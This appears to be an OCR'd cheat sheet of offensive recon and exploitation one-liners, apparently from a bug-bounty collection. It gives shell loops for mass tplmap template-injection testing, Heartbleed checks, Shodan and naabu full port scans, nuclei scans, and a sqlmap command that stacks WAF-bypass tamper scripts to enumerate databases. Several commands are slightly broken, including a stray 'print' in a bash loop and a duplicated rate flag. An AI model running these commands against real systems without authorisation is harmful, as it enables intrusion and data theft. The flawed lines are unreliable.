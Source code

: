 ```
for url in $(cat targets.txt); do python3 tplmap.py -u $url; print $url; done

```

---

## **HeartBleed**

```
cat urls.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line; safe; done

```

---

## **Scan IPs**

```
cat my_ips.txt | xargs -L100 shodan scan submit --wait 0

```

## **Portscan**

```
naabu -l targets.txt -rate 3000 -retries 3 -warm-up-time 0 -rate 150 -c 50 -ports 1-65535 -silent -o out.txt

```

## **Screenshots using Nuclei**

```
nuclei -l target.txt -headless -t nuclei-templates/headless/screenshot.yaml -v

```

## **IPs from CIDR**

```
echo cidr | httpx -t 100 | nuclei -t ~/nuclei-templates/ssl/ssl-dns-names.yaml | cut -d " " -f7 | cut -d "]" -f1 |  sed 's/[//' | sed 's/,/\n/g' | sort -u

```

## **SQLmap Tamper Scripts - WAF bypass**

```
sqlmap -u 'http://www.site.com/search.cmd?form_state=1' --level=5 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
 --no-cast --no-escape --dbs --random-agent

```
